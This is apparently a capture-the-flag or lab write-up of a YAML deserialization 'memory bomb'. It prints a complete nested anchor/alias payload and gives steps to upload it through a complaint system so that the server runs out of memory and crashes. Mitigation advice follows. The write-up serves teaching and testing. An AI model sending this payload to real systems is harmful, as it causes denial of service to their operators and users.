


# **Insecure Deserialization-5-Memory Bomb**

## 1. Methodology

**Step 1 – Create a malicious YAML file**

- Create a .yml file with a special structure that uses YAML anchors and aliases. These elements create a “memory bomb” by causing data to expand very rapidly.

**Step 2 – File content**

- Use this structure to build a string where each level repeats the previous one many times:
```
  a: &a [_,_,_,_,_,_,_,_,_,_,_,_,_,_,_]
  b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a,*a]
  c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b,*b]
  d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c,*c]
  e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d,*d]
  f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e,*e]
  g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f,*f]
  h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g,*g]
  i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h,*h]
  j: &j [*i,*i,*i,*i,*i,*i,*i,*i,*i,*i]
  k: &k [*j,*j,*j,*j,*j,*j,*j,*j,*j,*j]
  l: &l [*k,*k,*k,*k,*k,*k,*k,*k,*k,*k]
  ```

- This structure acts like a bomb because each level copies the previous one several times, causing the data to grow enormously when the program reads the YAML file.

**Step 3 – Upload via the complaint system**

- Send the malicious .yml file through the complaint system to activate the vulnerability.

**Step 4 – Validation**

- The challenge is successful when the memory bomb is triggered, using too much memory and causing the system to crash.

## Techniques used:

- YAML deserialization attack
- Denial of service (DoS)

## Tools used:

- Text editor to create the YAML file

---

## 2. Vulnerabilities

**Vulnerability:**

- YAML deserialization vulnerability
- Denial of service

**Affected component:**

- YAML file upload system via complaint

**Severity:**

- **High**

---


## 3. Risks

- Excessive memory usage, which can cause denial of service or system crashes.

-Business impact: user trust loss, reputational damage.

---

## 4. Actions

**Risk Mitigation**

- Disable alias processing in uploaded YAML files.

**Fix**

- Use secure YAML reading libraries, or limit file size and structure complexity.

**Best practices**

- OWASP: Deserialization of untrusted data.

---

## 5. Evidence

**Structure YAML de la bombe mémoire**


